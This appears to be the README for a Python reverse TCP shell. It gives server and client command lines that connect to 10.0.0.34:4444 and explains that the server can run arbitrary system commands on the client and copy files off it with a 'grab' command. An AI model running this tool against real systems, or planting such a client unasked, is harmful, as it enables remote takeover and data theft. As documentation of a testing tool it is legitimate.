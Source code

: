 ## Python Reverse TCP Shell ##

### Overview

Running the server:

    ./reverse_tcp_server.py --host 10.0.0.34 --port 4444
    
This will start the server and bind it to listen on port 4444 at 10.0.0.34.  Make sure to set the host field to your IP address.

Running the client:

    ./reverse_tcp_client.py --host 10.0.0.34 --port 4444
    
This will initiate an outbound tcp connection to 10.0.0.34:4444.  These settings should identically mimic the reverse_tcp_client.py settings.

Once the client has connected to the server, you will see the prompt `Shell>` on the server.
### Options:
 
Server:  
    
    Usage: reverse_tcp_server.py [OPTIONS] 
        --host TEXT     the IP address to listen on
        --port INT      the port to listen on
        --dest TEXT     The directory destination to put files from `grab`
        --struct        A flag to signify whether to save files with orig dir structure
        
Client:

    Usage: reverse_tcp_client.py [OPTIONS]
        --host TEXT     the IP address of the shell server
        --port INT      the port address of the shell server

### Usage

Exit the shell and terminate the connections

    Shell> terminate
    
Copy the file foo.txt from the local directory on the client side

    Shell> grab foo.txt
    
Copy the file foo.pdf from an absolute location on the client

    Shell> grab /home/user/Documents/foo.pdf

You can execute any system level command that the client machine supports via the shell.  Additionally, there are some commands built into the shell itself that can be used.

 * `terminate` -- This command disconnects the server and client and closes both processes
 * `grab` -- This command is used to copy a file from the server to your system over the shell
